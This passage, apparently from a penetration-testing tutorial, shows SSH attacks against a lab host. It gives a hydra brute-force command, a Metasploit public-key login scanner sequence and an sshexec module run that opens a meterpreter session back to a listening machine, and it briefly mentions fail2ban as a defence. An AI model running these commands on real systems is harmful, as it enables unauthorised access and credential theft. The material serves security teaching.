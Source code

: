 We can test a brute force attack on ssh for guessing the password or to test threshold policy while performing penetration testing on SSH. It requires a dictionary for username list and password list, here we have username dictionary “user.txt” and password list named “pass.txt” to perform the brute force attack with the help of hydra
hydra -L user.txt -P pass.txt 192.168.1.103 ssh
1
	
hydra -L user.txt -P pass.txt 192.168.1.103 ssh

As a result, you can observe that the host machine has no defence against brute force attack, and we were able to obtain ssh credential.

To protect your service against brute force attack you can use fail2ban which is an IPS. Read more from here to setup fail2ban IPS in the network.

If you will observe the given below image, then it can see here that this time the connection request drops by host machine when we try to launch a brute force attack.

SSH Public Key Login Scanner

This module will test ssh logins on a range of machines using a defined private key file, and report successful logins. If you have loaded a database plugin and connected to a database this module will record successful logins and hosts so you can track your access. Key files may be a single private key or several private keys in a single directory. Only a single passphrase is supported, however, so it must either be shared between subject keys or only belong to a single one.
msf > use auxiliary/scanner/ssh/ssh_login_pubkey
msf auxiliary(ssh_login_pubkey) > set rhosts 192.168.1.103
msf auxiliary(ssh_login_pubkey) > set user_file /root/user.txt
msf auxiliary(ssh_login_pubkey) > set key_path /root/.ssh/id_rsa.pub
msf auxiliary(ssh_login_pubkey) > run
1
2
3
4
5
	
msf > use auxiliary/scanner/ssh/ssh_login_pubkey
msf auxiliary(ssh_login_pubkey) > set rhosts 192.168.1.103
msf auxiliary(ssh_login_pubkey) > set user_file /root/user.txt
msf auxiliary(ssh_login_pubkey) > set key_path /root/.ssh/id_rsa.pub
msf auxiliary(ssh_login_pubkey) > run

As a result, you can observe that user “ignite” is authorized to use the public to connect with ssh of the host machine.

SSH User Code Execution

This module connects to the target system and executes the necessary commands to run the specified payload via SSH. If a native payload is specified, an appropriate stager will be used. Thus we gave host IP along with username and password, if everything goes in right then we get meterpreter session on our listening machine.
msf > use exploit/multi/ssh/sshexec
msf exploit(sshexec) >set rhosts 192.168.1.103
msf exploit(sshexec) >set username ignite
msf exploit(sshexec) >set password 123
msf exploit(sshexec) >set srvhost 192.168.1.107
msf exploit(sshexec) >exploit
1
2
3
4
5
6
	